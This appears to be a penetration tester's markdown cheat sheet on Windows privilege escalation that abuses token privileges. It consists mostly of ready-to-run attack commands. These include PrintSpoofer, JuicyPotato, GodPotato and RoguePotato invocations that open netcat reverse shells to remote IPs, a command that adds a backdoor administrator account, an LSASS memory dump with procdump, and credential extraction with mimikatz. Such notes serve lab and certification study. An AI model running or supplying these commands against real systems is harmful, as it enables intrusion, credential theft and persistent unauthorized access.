 # ✅ Windows Privilege Escalation – User Privileges 

---

## 🎯 Quick Wins
- [ ] `SeImpersonatePrivilege` / `SeAssignPrimaryTokenPrivilege` → Potato exploit (Juicy, PrintSpoofer)
- [ ] `SeDebugPrivilege` → Dump LSASS or SYSTEM shell
- [ ] `SeTakeOwnershipPrivilege` → Take ownership of sensitive files
- [ ] `SeBackupPrivilege / SeRestorePrivilege` → Copy SAM & SYSTEM files
- [ ] `SeLoadDriverPrivilege` → Load malicious driver
- [ ] `SeSecurityPrivilege` → Access security logs

---
## ✅ Enumeration

```powershell
whoami /priv
whoami /all
```

```c
dir C:\ /a /s | findstr /i "temp programdata"
```

## ✅ SeImpersonate / SeAssignPrimary Token

```c
# Check The Windows Version  & if it's 32 bit or 64 bit
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"

#Token Impersonation - PrintSpoofer 
c:\tools\PrintSpoofer.exe -c "c:\Users\chris\tools\nc64.exe ip 21 -e cmd"
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
C:\tools>.\PrintSpoofer.exe -i -c powershell.exe 

# Token Impersonation - JuicyPotato
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\Users\chris\Desktop\tools\nc64.exe 192.168.45.171 22 -e cmd.exe" -t *
C:\temp\JuicyPotato.exe -t * -p C:\Users\Public\Documents\sh3ll.exe -l 443

# Token Impersonation - JuicyPotato - Troubleshooting error 
1 . check THe version of the windows
2 . check this website to search of a CLSID https://ohpe.it/juicy-potato/CLSID/
3 . Exploit : C:\temp\JuicyPotato.exe -t * -p C:\temp\shell.exe -l 443 -c "{6d18ad12-bde3-4393-b311-099c346e6df9}" 
1. if it doesn't work try another CLSID

# GodPotato
GodPotato -cmd "cmd /c dir c:\Users\Administrator"
GodPotato-NET2.exe -cmd "cmd /c type c:\Users\damon\DEsktop\proof.txt"
GodPotato -cmd "C:\Users\Public\reverse.exe"

Sometimes the SeImpersonatePrivilege is not the actual intended path so the Godpotato shell will be broken and you will not be able to execute whoami, no output for mimikatz, etc.

GodPotato -cmd "net user /add backdoor Password123" GodPotato -cmd "net localgroup administrators /add Lance"

# RougePotato Exploit
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe ip 443 -e cmd" -l 9999
# In some old versions you need to use the "-f" param
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe ip 443 -e cmd" -f 9999

# SharpEfsPotato
> SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"

# EfsPotato
> EfsPotato.exe "whoami"

# non of them working try?
> BadPotato.exe
> Multipotatox64.exe
> SharpEfsPotato.exe
> SigmaPotato.exe
> RogueOxidResolver.exe

# Old Windows ?
.\Juicy.Potato.x86.exe -l 1360 -p c:\windows\system32\cmd.exe -a "/c c:\users\Public\nc.exe -e cmd.exe 10.10.10.1 8080" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
# Note !!
if it's not working change the '-c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}'
https://github.com/ohpe/juicy-potato/tree/master/CLSID
```

## ✅ SeDebugPrivilege

```c
Note !! : if you have rdp access i can dump the lsass without using procdump

Step1  : Open Task Manager
Step2  : Open Details Page
Step3  : find lsass.exe and press right click
Step4  : Click in Create dump File
```

```c
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

## ✅ SeTakeOwnershipPrivilege

```c
# Take ownership of file
takeown /f "C:\Sensitive\File.txt"

# Grant full control
icacls "C:\Sensitive\File.txt" /grant user:F

# Read file
type "C:\Sensitive\File.txt"
```
---
---
